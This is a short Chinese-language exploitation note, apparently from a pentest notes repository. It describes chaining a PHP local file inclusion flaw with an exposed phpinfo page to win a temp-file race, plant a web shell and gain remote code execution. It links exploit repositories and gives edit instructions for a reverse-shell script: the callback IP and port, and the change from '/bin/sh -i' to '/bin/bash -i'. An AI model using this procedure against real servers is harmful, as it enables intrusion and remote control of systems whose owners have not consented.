

LFI-With-PHPInfo-Assitance
================================

利用条件
---------------------------------
- 存在lfi漏洞
- 存在可访问phpinfo网页

利用原理
---------------------------------
- php会把post请求, 存储在临时文件中, 并在请求结束后删除临时文件
- phpinfo中会显示_FILE变量, 其中会显示临时文件路径
- 所以可以通过发送数据量大的请求, 拖延php删除临时文件的时间, 同时查看_FILE得到临时文件位置, 并使用lfi漏洞对其进行包含从而执行

利用步骤
---------------------------------
- 发送post请求到phpinfo, post的内容为一个创建shell文件的payload
- 通过有lfi漏洞的页面包含payload, payload被执行然后创建shell文件
- 通过lfi页面包含shell文件, 并传参, 从而进行利用

漏洞利用
---------------------------------
- exp：``https://github.com/twfb/LFI-With-PHPInfo-Assitance``
- 修改：``		
	|lfiphpinfo1|
- 利用
	|lfiphpinfo2|
- 其它exp
	+ ``https://github.com/VineshChauhan24/LFI-phpinfo-RCE``
	+ ``$ip = '127.0.0.1';  // CHANGE THIS``
	+ ``$port = 3333;       // CHANGE THIS``
	+ ``POST /phpinfo.php?a= -> POST /info.php?a=``
	+ ``GET /index.php?lfi= -> GET /index.php?filename=``
	+ 注意根据实际情况需要修改(若sh如何指向dash，为非交互的shell)：``$shell = 'uname -a; w; id; /bin/sh -i';->$shell = 'uname -a; w; id; /bin/bash -i';``

